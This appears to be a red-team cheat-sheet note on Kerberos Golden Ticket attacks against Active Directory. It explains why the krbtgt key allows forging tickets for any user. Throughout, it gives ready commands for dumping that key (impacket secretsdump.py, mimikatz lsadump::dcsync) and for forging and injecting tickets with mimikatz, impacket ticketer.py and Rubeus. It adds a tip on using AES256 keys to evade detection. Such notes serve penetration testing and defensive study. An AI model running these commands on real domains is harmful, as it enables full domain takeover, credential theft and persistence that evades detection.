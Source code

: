 #impacket #mimikatz 
- TGTs are encrypted with the `krbtgt`'s key derived from it's password.
- `krbtgt` account password is not rotated automatically. Microsoft's best practice is to rotate every 6 months, which is more than enough time to maintain persistence.
- Password history for `krbtgt` account is maintained by the DC.
- If we get hold of this key, we can forge TGTs for any user subsequently getting access to any service as any user. These tickets are called Golden Tickets.
- This can be done using dumping credential of the domain controller or via [DC Sync](DC%20Sync.md) attack.
- This can also be done by dumping the NTDS.dit file locally.
- Using impacket's secretsdump.py:
```bash
secretsdump.py 'mydomain.local/drdragon@192.168.2.2' -just-dc-user krbtgt
```
### Mimikatz
```powershell
kerberos::golden 
	/User:Administrator # user for which the TGT is generated
	/domain:<domain-FQDN>
	/sid:<domain-sid>
	/aes256:<aes256-kerberos-key>
	/id:<id> # Optional user RID. User ID should match the RID of the username specified above
	/groups:<group> # optional group ids
	/startoffset:0 # ticket availibity starts now. a negetive number means the ticket was available from past.
	/endin:600 # optional ticket lifetime (defautl is 10 years). Default AD settings for lifetime is 10 hours (600 minutes)
	/renewmax:10080 # Optional ticket lifeitme in minutes. Default AD setting is 7 days = 100800 minutes
	[/ptt(injects TGT in memory)|/ticket(saves ticket to file)]
```
### Impacket
```bash
ticketer.py -domain-sid <domainSID> -domain mydomain.local -aes <aesKey> Administrator
# This will create the TGT for the Administrator user and save it in Administrator.ccache
```
### Rubeus
```powershell
# Creates command for golden ticket by fetching information from DC using ldap
Rubeus.exe
	golden
	/aes256:<key> # AES256 key of the krbtgt account
	/ldap # make ldap query to fetch all information
	/user:Administrator # User for which golden ticket is creates
	/ptt # injects the ticket in memory
	[/printcmd] # prints the command for creating golden ticket manually using details fetched using ldap
```

---
- AES256 keys should be used to avoid any alerts or detection.
- AES keys for `krbtgt` account can also be obtained by performing [DC Sync](DC%20Sync.md)
```powershell
# mimikatz
lsadump::dcsync /user:dcorp\krbtgt
```